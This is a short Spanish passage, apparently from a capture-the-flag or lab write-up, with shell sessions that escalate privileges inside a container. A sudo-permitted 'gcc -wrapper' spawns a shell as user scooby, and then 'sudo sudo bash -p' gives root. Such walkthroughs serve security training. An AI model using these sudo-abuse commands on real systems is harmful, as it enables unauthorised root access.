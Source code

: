 Vemos **gcc** con permisos SUDO :
   ```bash
fred@32bb9201378f:/$       sudo -u scooby gcc -wrapper /bin/sh,-s .  
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
scooby@32bb9201378f:/$ 
```

YA ESTAMOS COMO SCOOBY.

Vemos si el usuario tiene permisos SUDO:
   ```bash
scooby@32bb9201378f:/$ sudo -l
Matching Defaults entries for scooby on 32bb9201378f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User scooby may run the following commands on 32bb9201378f:
    (root) NOPASSWD: /usr/bin/sudo
```

Vemos **sudo** con permisos SUDO :
   ```bash
scooby@32bb9201378f:/$ sudo sudo bash -p
root@32bb9201378f:/# whoami
root
root@32bb9201378f:/# 
```

**YA ESTAMOS COMO ROOT.**